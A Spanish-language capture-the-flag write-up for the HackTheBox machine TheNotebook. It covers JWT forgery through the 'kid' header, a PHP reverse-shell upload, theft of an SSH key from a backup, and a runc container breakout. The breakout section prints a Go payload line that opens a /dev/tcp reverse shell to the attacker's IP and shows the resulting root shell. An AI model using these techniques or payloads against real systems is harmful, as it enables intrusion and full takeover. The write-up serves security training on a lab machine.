






# The Notebook

Write-up para la máquina TheNotebook de HackTheBox, marcada con una dificultad mediana. Se explotará un error en la configuración de los JSON Web Tokens para falsificar los credenciales de administrador, desde allí se  abusará de la funcionalidad de subida de ficheros para obtener una shell en el sistema. A través de backups encontraremos una manera de conectarnos como un usuario en la máquina y mediante una vulnerabilidad en docker escalaremos hasta root.


## Primer escaneo

 ```bash
 # Nmap 7.91 scan initiated Sat Jul 17 20:14:42 2021 as: nmap -v -sV -sC -oN scans/nmap 10.10.10.230
 Nmap scan report for 10.10.10.230
 Host is up (0.15s latency).
 Not shown: 997 closed ports
 PORT      STATE    SERVICE VERSION
 22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey:
 |   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
 |   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
 |_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
 80/tcp    open     http    nginx 1.14.0 (Ubuntu)
 |_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
 | http-methods:
 |_  Supported Methods: GET OPTIONS HEAD
 |_http-server-header: nginx/1.14.0 (Ubuntu)
 |_http-title: The Notebook - Your Note Keeper
 10010/tcp filtered rxapi
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```

Con un primer escaneo sobre el servidor podemos ver que el sistema  cuenta con tres servicios distintos corriendo. El que más destaca es *rxapi* en el puerto 10010 aunque este filtrado simplemente porque no sabía que era. Después de buscarlo, resulta ser _API HTTP RESTFUL and WEB SOCKETS SERVER_. De mucho no sirve, ya que está filtrado y no podemos interactuar con él. Aparte de este servicio también contamos con Nginx sirviendo una página web en el puerto 80 y  con OpenSSH en el 22. Bastante normal, ninguna de las dos versiones  parece vulnerable a simple vista.

Dado que tenemos una página web probamos con enumerar posibles rutas que puedan existir:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.230
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/17 19:24:45 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 1250]
/register             (Status: 200) [Size: 1422]
/admin                (Status: 403) [Size: 9]
/logout               (Status: 302) [Size: 209] [--> http://10.10.10.230/]
```

Nada fuera de lo normal pero la ruta /admin puede ser interesante.

## Explorando la web

La web es una aplicación de creación de notas que permite la creación de cuentas, el registro y la creación de notas.



### Inyecciones en campos

#### SQLi

En ninguno de los formularios de creación de cuenta como de acceso las inyecciones SQL parecen tener ningún efecto positivo. Descarto la idea.

#### XXS

Al igual que con las inyecciones SQL, la página web parece estar preparada para este tipo de vulnerabilidades. Campos probados: nombre de usuario, correo electrónico así como todos los campos de creación de notas.

### Cookies

Al acceder a la página con un usuario registrado esta nos da dos cookies distintas: uuid (id única del usuario) y `auth` (toda la pinta de ser un json web token para ayudar a la autentificación del usuario).

Si comprobamos la cookie `auth` para corroborar que se trata de un jwt con la web https://jwt.io descubrimos que también se utiliza para  determinar si un usuario tiene capacidades de administrador con el  miembro `admin_cap`.



Además podemos ver que en la cabecera el miembro opcional `kid`(Key ID) está siendo utilizado pero no como se suele usar. Normalmente guarda algún tipo de identificación para saber con qué clave se ha firmado un token, no la dirección hacia donde encontrar la llave. Siendo esta una dirección web podemos intentar abusar ese parámetro.

#### Intentar recuperar la llave de validación

Estando el puerto 7070 cerrado, ya que no se ha detectado con el escaneo inicial esta idea no tiene muchas posibilidades de funcionar pero siempre vas a fallar los tiros que no tires.

`$ wget http://10.10.10.230:7070/privKey.key`

```bash
--2021-07-30 18:53:02--  http://10.10.10.230:7070/privKey.key
Connecting to 10.10.10.230:7070... failed: Connection refused.
```

Se ha intentado.

#### Falsificar llave de validación

Hay una posibilidad de que, de la manera que esta puesto el parámetro `kid`, la implementación de la aplicación lo utilice para hacer una petición http para coger la llave y comprobar la veracidad del token. De esa manera podemos crear nuestro token con el parámetro `admin_cap` cambiado a 1 y con el parámetro `kid` cambiado a una dirección que controlemos con una llave que nosotros creemos. De manera que podemos firmar el token con nuestra llave y decirle que utilice nuestra llave para validarlo.

Podemos general la nueva llave con `$ openssl genrsa -out privKey.key `.

Y con `$ python3 -m http.server 8080` en el mismo directorio donde hemos generado la llave tenemos para darle un nuevo servidor al parámetro `kid`.

#### Falsificar token

Desde la misma página de `https://jwt.io` podemos modificar la información que queremos:



Fijaos que hemos modificado el campo `admin_cap` con un 1, y el campo `kid` del header con nuestra IP y el puerto que hemos puesto el servidor escuchando con python en el apartado anterior. Esto nos genera un nuevo token que podemos copiar y pegar dentro de la cookie `auth`. Una vez hecho recargamos la página y veremos como en la barra de navegación nos aparece una nueva opción:



### Explorar capacidades de administrador

El admin puede ver notas así como subir ficheros.

Mirando las notas del administrador encontramos dos interesantes:

```
admin

Have to fix this issue where PHP files are being executed :/. This can be a potential security issue for the server.
```

Nos da la vulnerabilidad que tenemos que explotar.

```
admin

Finally! Regular backups are necessary. Thank god it's all easy on server.
```

Encontraremos backups por algún lado.

#### Subida una reverse shell

Dentro del apartado de subida de archivos subimos cualquier _revese shell_ de PHP con nuestra IP y puerto que queramos configurados y abrimos un listener en ese puerto para esperar el callback. Solo nos queda visitar la página donde se ha subido.



## Estableciendo un foothold

Sabiendo que hay backups podemos intentar buscarlos con:

```bash
$ locate backups
/var/backups
$ cd /var/backups
$ ls
apt.extended_states.0
apt.extended_states.1.gz
apt.extended_states.2.gz
apt.extended_states.3.gz
home.tar.gz
```

Para descargarlos lo más sencillo es crear otro servidor con python desde la máquina y navegar para descargarlos.



Dentro del backup `home.tar.gz` podemos encontrar la llave privada `id_rsa` para conectarse mediante SSH así como el nombre de usuario `noah`.

Con esto podemos conectarnos al sistema `$ ssh -i id_rsa noah@10.10.10.230` y recuperar la flag de usuario.

## Escalar privilegios

Mirando que le esta permitido hacer como super-usuario al usuario `noah` encontramos:

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$
```

Se nos permite ejecutar `sudo docker exec ...` sin restricciones así que seguramente el exploit consista en eso. Cogemos también la versión de `docker` para poder hacer una búsqueda:

```bash
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

```bash
┌──(galahad㉿orfelia)-[~]
└─$ searchsploit docker 18.06.0
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (1)                        | linux/local/46359.md
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)                        | linux/local/46369.md
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Encontramos dos exploits que permiten saltar fuera del container aplicables a nuestra situación. Por desgracia ambos son documentos que explican como hacerlo más que el código para hacerlo. Así que una búsqueda rápida de `PoC Docker < 18.09.2 Container Breakout` nos devuelve este enlace de GitHub https://github.com/Frichetten/CVE-2019-5736-PoC.

Clonamos el repositorio y modificamos el fichero `main.go` para que ejecute el payload que deseemos.

```go
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n exec bash -i &>/dev/tcp/10.10.16.46/4444 <&1"
```

En este caso que nos abra una reverse shell en nuestro puerto 4444.

Compilamos el `main.go` con `go build main.go` y lo subimos al servidor dentro del container que se nos permite ejecutar. Para entrar:

```bash
sudo docker exec -it webapp-dev01 bash
```

Para subirlo servidor python en nuestra máquina y `wget` desde el contenedor.

### Ejecutar exploit

Para esta parte vamos a necesitar dos terminales abiertas en la cuenta de `noah` y otra en nuestro ordenador haciendo de listener, ya que el trigger del exploit se da en el siguiente acceso al container después de ejecutarlo. Una dentro de `noah` ya la tenemos con el container.

Como hemos comentado en la primera terminal dentro de `noah` entramos en el contenedor y ejecutamos el exploit:

```bash
noah@thenotebook:~$ sudo docker exec -it webapp-dev01 bash
root@4d2c0e3e35c1:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@4d2c0e3e35c1:/opt/webapp# wget http://10.10.16.46:8000/main
--2021-07-30 18:15:16--  http://10.10.16.46:8000/main
Connecting to 10.10.16.46:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2236814 (2.1M) [application/octet-stream]
Saving to: ‘main’

main                         100%[==============================================>]   2.13M  1.04MB/s    in 2.1s

2021-07-30 18:15:18 (1.04 MB/s) - ‘main’ saved [2236814/2236814]

root@4d2c0e3e35c1:/opt/webapp# chmod +x main
root@4d2c0e3e35c1:/opt/webapp# ./main
[+] Overwritten /bin/sh successfully

```

En la segunda entramos también en el contenedor pero utilizamos /bin/sh en vez de bash, ya que es el binario que se reescribe:

```bash
noah@thenotebook:~$ sudo docker exec -it webapp-dev01 /bin/sh
No help topic for '/bin/sh'
noah@thenotebook:~$
```

Nos echa inmediatamente pero en nuestro listener obtenemos una shell con root:

```bash
┌──(galahad㉿orfelia)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.46] from (UNKNOWN) [10.10.10.230] 54604
bash: cannot set terminal process group (9573): Inappropriate ioctl for device
bash: no job control in this shell
<d6bad03de53cbc218feeee8f50a64957752209bfab7703ac9# whoami
root
```

Solo hay que navegar hasta la flag y cogerla.

